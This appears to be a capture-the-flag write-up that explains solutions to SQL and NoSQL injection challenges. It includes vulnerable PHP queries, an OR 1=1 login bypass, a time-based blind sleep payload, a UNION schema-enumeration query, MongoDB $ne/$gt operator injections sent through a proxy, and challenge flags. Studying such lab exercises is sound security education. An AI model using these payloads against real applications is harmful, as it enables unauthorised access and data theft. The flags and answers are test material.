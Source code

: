 # SQLi Challenges
As you all must've noticed, there were two separate databases being used and hence the challenges were hosted across two websites. One of the DBs used was MySQL and the other was MongoDB. 

## MySQL challenges

### Challenge 1 - Try to login
+ This was the SQL query:
``` $q = "SELECT * FROM users where (username='".$username."') AND (password = '".md5($pass)."')";```
+ Hence the solution will be of the form:
``` blah') OR 1=1 -- // ```
When this is entered in the "username" field, the rest of the query gets commented and you can login as the admin user. 

### Challenge 2 - Take things slow 
+ Here you were expected to conduct a time-based blind SQLi. Essentially, you had to delay the response of the website by 10 seconds. It was also mentioned that you need to conduct this attack on the "Profile Details page"
+ Note: Blind SQLi means the application is vulnerable to SQL injections, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.
+ The SQL query was this:
``` $q = "Select * from users where username = '".$user."'";```
+ The solution is as follows:
``` ?user=admin' and if(1=1, sleep(10), null) -- //```
![](images/1.png)

### Challenge 3 - Find Tom Riddle! 
+ Question: Get access to Tom Riddle's account: A wizard who's first name is tom, goes by the username voldemort.
+ Hints to be picked up - "first name" is tom, "username" is voldemort
+ "first name" and "username" are probably names of columns in the database
+ Confirm this by conducting an SQLi to find column names in the "Search Products" page as follows
``` ' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- // ```
![](images/2.png)
+ "first name" is actually "fname" and "username" is "username" itself
+ The twist here was, there are two users with the username "voldemort". But only of of them had fname "tom". So you have to write a query that takes care of both these conditions. Add this to the URL:
``` ?user=voldemort' and fname = 'tom'-- //```
![](images/3.png)


## NoSQL challenges

### Challenge 1 - - User Lookup  
+ Solution: ```"' || '2'=='2"``` (without double quotes)
+ Flag: ctf{c0ngr8$}

### Challenge 2 - User Login  
1. Direct payload wont work, need to install a proxy (I used burp suite)
2. Need to change browser proxy settings in browser (I used FoxyProxy extension for Firefox)- set proxy IP to 127.0.0.1, port to 8080
3. Login using any credentials
4. Intercept the request and change the payload to: ```{"username":"admin","password":{"$ne": 1}}```
+ Flag: ctf{l0L+sO+r@nd0m}

### Challenge 3 - User Login
Follow steps 1-3 from above  
+ Intercept the request and change the payload to: ```{"username":{"$gt": ""},"password":{"$ne": 1}}```
+ Flag: ctf{y0uve_ch@ng3d}